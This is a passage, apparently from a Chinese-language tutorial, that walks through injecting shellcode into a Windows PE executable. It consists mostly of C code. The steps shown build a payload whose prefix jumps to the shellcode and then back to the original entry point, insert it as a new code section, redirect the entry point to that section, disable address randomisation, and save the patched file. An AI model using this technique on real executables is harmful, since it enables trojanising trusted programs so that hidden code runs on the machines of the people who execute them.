		align(pefile.ppimageSectionHeader[pefile.pimageNTHeaders->FileHeader.NumberOfSections - 1]->Misc.VirtualSize,
			pefile.pimageNTHeaders->OptionalHeader.SectionAlignment);
	DWORD offset = oldEntryPoint - newEntryPoint - 10;
	printf("old Entry: %08x, new Entry: %08x, offset: %08x\n", oldEntryPoint, newEntryPoint, offset);
	memcpy(payload + 6, &offset, sizeof(DWORD));
```

payload 包括两部分

- prefix，prefix 的流程：
  - 跳转到 shellcode
  - 跳转到旧 Entry Point
- shellcode，prefix 后面跟着 shellcode

### 插入新节

构建好 payload 之后，将 payload 作为新节插入 PE 文件中。

```c
	// insert shellcode to a new section
	printf("insert new section...\n");
	insertNewCodeSection(&pefile, payload, sizeof prefix + shellcodeSize);
```

### 修改 PE 入口点

插入新节后，修改函数入口点为新节 RVA。

```c
	// change Entry Point to newly inserted section
	pefile.pimageNTHeaders->OptionalHeader.AddressOfEntryPoint = newEntryPoint;
	printf("change Adress of Entry Point to %x\n", newEntryPoint);
```

### 修改 DLL Characteristic

关闭 DLL 地址随机化。

```c
	pefile.pimageNTHeaders->OptionalHeader.DllCharacteristics = 0x8100;
```

### 保存 PE 文件

```c
	// save PE file
	PESave(&pefile, argv[1]);
```

